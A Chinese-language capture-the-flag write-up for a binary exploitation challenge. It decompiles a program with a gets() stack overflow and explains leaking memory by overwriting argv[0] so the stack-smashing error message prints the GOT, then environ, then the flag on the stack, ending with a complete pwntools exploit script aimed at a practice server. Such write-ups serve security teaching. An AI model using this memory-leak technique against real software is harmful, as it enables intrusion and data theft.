

```
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  __WAIT_STATUS stat_loc; // [rsp+14h] [rbp-8Ch] BYREF
  __int64 n3_1; // [rsp+20h] [rbp-80h]
  __int64 n3; // [rsp+28h] [rbp-78h]
  char buf[48]; // [rsp+30h] [rbp-70h] BYREF
  char s2[56]; // [rsp+60h] [rbp-40h] BYREF
  unsigned __int64 v10; // [rsp+98h] [rbp-8h]

  v10 = __readfsqword(0x28u);
  n3 = 3;
  LODWORD(stat_loc.__uptr) = 0;
  n3_1 = 0;
  sub_4009A6();
  HIDWORD(stat_loc.__iptr) = open("./flag.txt", 0);
  if ( HIDWORD(stat_loc.__iptr) == -1 )
  {
    perror("./flag.txt");
    _exit(-1);
  }
  read(SHIDWORD(stat_loc.__iptr), buf, 0x30u);
  close(SHIDWORD(stat_loc.__iptr));
  puts("This is GUESS FLAG CHALLENGE!");
  while ( 1 )
  {
    if ( n3_1 >= n3 )
    {
      puts("you have no sense... bye :-) ");
      return 0;
    }
    if ( !(unsigned int)sub_400A11() )
      break;
    ++n3_1;
    wait((__WAIT_STATUS)&stat_loc);
  }
  puts("Please type your guessing flag");
  gets(s2);
  if ( !strcmp(buf, s2) )
    puts("You must have great six sense!!!! :-o ");
  else
    puts("You should take more effort to get six sence, and one more challenge!!");
  return 0;
}
```

程序的main函数里面有open("./flag.txt", 0)，而open的数据又通过read(SHIDWORD(stat_loc.__iptr), buf, 0x30u)放到了栈上。

checksec一下



程序只开了canary跟NX，并且程序里有一个很明显的gets函数的栈溢出。

```
__int64 sub_400A11()
{
  unsigned int v1; // [rsp+Ch] [rbp-4h]

  v1 = fork();
  if ( v1 == -1 )
    err(1, "can not fork");
  return v1;
}
```

程序里有一个多线程启用的函数，调取这个函数时会生成一个子线程，由于父线程跟子线程fork函数的返回值不一样，导致子线程跟父线程分离。

之后父线程会等待子线程结束。原本我想的是劫持子进程canary触发之后调取的fail函数。但是根本没有任何其他的漏洞点可以使我碰到got表。但是程序故意设置了三个子进程应该就是要我们利用canary触发之后程序调取的函数去读取栈上的flag。

然后我查了canary触发后的函数调取进程，canary触发后会立刻跳转到fail函数，之后会去调取argv[0]利用里面的地址去找到程序名。

而argv[0]刚好在栈上。也就是说可以利用覆盖argv[0]实现任意地址的读取。但是还有问题，flag是被存在了栈上。要想知道flag的地址就要先泄露栈地址然后再寻址。这里要借用environ全局变量去泄露environ里面存的栈指针。environ全局变量存在于libc里面，也就是说要泄露got表。刚好argv[0]可以读取任意地址。

这些整个思路就确立了。利用argv[0]去泄露got表然后利用偏移去找全局变量environ。再泄露environ去寻找flag。

后面就是动态调试去确定偏移了。


在调取gets之后设置断点，可以看到，我们输入的aaaaaaaa是被存入了0x7fffffffdc70，而文件名的调取链则有0x7fffffffdd98，偏移为0x128。


通过这些命令就能找到environ里面所储存的栈地址。与flag的偏移为0x168。

最后的脚本

```
from pwn import *

context.arch = 'amd64'
r=remote('node5.buuoj.cn',27064)
#r = process('./11')
libc = ELF('./libc.so.6')
gets_addr= libc.sym['gets']
environ1  = libc.sym['environ']
gets=0x602058
payload1 = b'a'*0x128+p64(gets)
r.sendline(payload1)
r.recvuntil(b'*** stack smashing detected ***: ')
libc = u64(r.recv(6).ljust(8,b'\x00'))
print(hex(libc))
addr=libc - gets_addr
environ = environ1 +addr
payload2=b'a'*0x128+p64(environ)
r.sendline(payload2)
r.recvuntil(b'*** stack smashing detected ***: ')
stack = u64(r.recv(6).ljust(8,b'\x00'))
flag = stack -0x168
payload3=b'a'*0x128+p64(flag)
r.sendline(payload3)
r.interactive()
```

